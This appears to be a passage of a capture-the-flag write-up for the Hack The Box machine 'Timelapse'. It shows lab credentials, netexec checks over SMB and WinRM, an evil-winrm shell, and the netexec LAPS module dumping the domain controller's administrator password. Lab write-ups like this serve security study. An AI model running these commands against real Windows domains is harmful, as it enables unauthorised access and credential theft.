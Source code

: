 ```
```

```yaml
credentials:
    username: timelapse.htb/svc_deploy
    password: "E3R$Q62^12p7PLlC%KWaxuaV"
    protocol: smb,winrm
    host: DC01.timelapse.htb
    port: 445,5985
```

```
┌──(nabla㉿kali)-[~]
└─$ netexec smb timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'

SMB         10.129.227.113  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.113  445    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV
```

```
┌──(nabla㉿kali)-[~]
└─$ netexec winrm timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'

WINRM-SSL   10.129.227.113  5986   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:timelapse.htb)
WINRM-SSL   10.129.227.113  5986   DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV (Pwn3d!)
```

```
┌──(nabla㉿kali)-[~]
└─$ evil-winrm -i timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --ssl

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```

```
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy

[SNIP]

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
```

**LAPS Privilege Escalation**

```
┌──(nabla㉿kali)-[~]
└─$ netexec ldap timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb --module laps

[SNIP]

LAPS        10.129.227.113  389    DC01             [*] Getting LAPS Passwords
LAPS        10.129.227.113  389    DC01             Computer:DC01$ User:                Password:f4]W2[hO4z-H$1;jw]UW+@a7
```
